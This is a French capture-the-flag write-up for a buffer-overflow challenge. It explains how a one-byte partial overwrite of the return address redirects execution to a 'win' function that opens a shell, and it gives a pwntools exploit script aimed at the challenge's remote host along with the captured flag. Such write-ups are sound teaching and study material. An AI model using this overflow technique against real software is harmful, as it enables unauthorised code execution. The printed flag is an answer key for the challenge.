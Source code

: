 Une fonction nommée `win` peut être trouvée dans le programme. Elle permet
d'ouvrir un shell.

Nous allons vouloir rediriger le programme vers cette fonction, ce qui nous
évitera de devoir utiliser une autre technique comme celle du shellcode.

Aussi, un passage dans le logiciel `checksec` nous montre que le programme
ne possède pas de canary. Enfin, le programme n'est pas soumis à l'ASLR, les
fonctions seront toujours au même endroit dans la mémoire.

Nous trouvons l'offset de `win` dans `gdb` : `0x13cb`
Après démarrage du programme, on trouve la fonction à l'adresse :
`0x5555555553cb`

La fonction de retour de `greet`, qui était initialement dans le registre
`RIP`, est celle de la fonction `main` puisque `greet` y est appelée.

L'adresse de la fonction `main` : `0x5555555553a8`

On voit donc que nous devons dépasser d'un seul octet sur cette adresse car
elle diffère de l'adresse de `win` d'un octet uniquement, l'octet `0xcb`.

### Exploit

L'exploit que j'ai écrit pour résoudre cette épreuve, se basant sur l'analyse
ci-dessus, est le suivant :

```python
from pwn import *

conn = remote('34.123.210.162', 20234)

offset = b'A'*24
payload = int(0xcb).to_bytes()

conn.send(offset + payload + b'\n')

conn.interactive()
conn.close()
```

Ce programme nous ouvre un shell dans lequel nous pouvons afficher le flag.

Le flag : `poctf{uwsp_71m3_15_4_f4c702}`